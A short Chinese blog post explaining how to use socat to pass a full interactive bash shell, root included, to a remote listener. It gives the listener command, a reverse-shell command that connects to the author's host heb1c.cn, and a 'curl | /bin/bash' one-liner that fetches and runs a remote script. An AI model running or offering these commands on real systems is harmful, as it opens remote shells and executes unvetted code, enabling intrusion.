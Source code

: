 ```yaml
---
layout: post
title: '利用socat实现远程终端控制'
date: 2019-3-18
author: hebicheng
cover: ''
tags: linux
---
```


> 通过使用socat, 给远端弹一个shell, 在远端实现远程控制

# 使用方式

`服务端`

```sh
    socat file:`tty`,raw,echo=0 tcp-listen:1234
```
在服务端运行这个命令，开启socat-server，监听1234端口

`客户端`

```sh
    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:heb1c.cn:1234
```
与服务端对应，配置相应的host与port即可将当前shell远程给服务端。  
ps: 服务端获取到的shell和本地完全一致，包括root状态。

可以将命令放到web服务，通过自己配置的链接使用服务，如
```sh
    curl -L heb1c.cn/socat | /bin/bash
```
通过以上命令等同于客户端的命令

> 利用socat实现远程终端控制  
> 原创作品，转载请注明来源 [https://hebicheng.github.io](https://hebicheng.github.io)  
